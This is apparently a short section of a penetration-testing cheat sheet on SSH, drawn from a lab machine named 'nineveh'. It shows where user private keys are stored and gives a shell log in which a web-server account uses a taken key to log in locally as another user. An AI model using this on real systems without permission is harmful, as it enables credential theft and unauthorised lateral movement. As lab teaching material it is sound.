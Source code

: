 # (22) SSH

<details>

<summary>Finding SSH Private Keys</summary>

```bash
/home/user/.ssh/id_rsa
```

</details>

<details>

<summary>SSH from localhost to localhost</summary>

* Useful if SSH port is not opened to external IP

```bash
www-data@nineveh:/dev/shm$ chmod 600 nineveh.priv 
www-data@nineveh:/dev/shm$ ssh -i nineveh.priv amrois@127.0.0.1
Could not create directory '/var/www/.ssh'.
The authenticity of host '127.0.0.1 (127.0.0.1)' can't be established.
ECDSA key fingerprint is SHA256:aWXPsULnr55BcRUl/zX0n4gfJy5fg29KkuvnADFyMvk.
Are you sure you want to continue connecting (yes/no)? yes
Failed to add the host to the list of known hosts (/var/www/.ssh/known_hosts).
Ubuntu 16.04.2 LTS
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

288 packages can be updated.
207 updates are security updates.


You have mail.
Last login: Wed May 10 08:01:22 2023 from 10.10.14.2
amrois@nineveh:~$ whoami
amrois
```

</details>
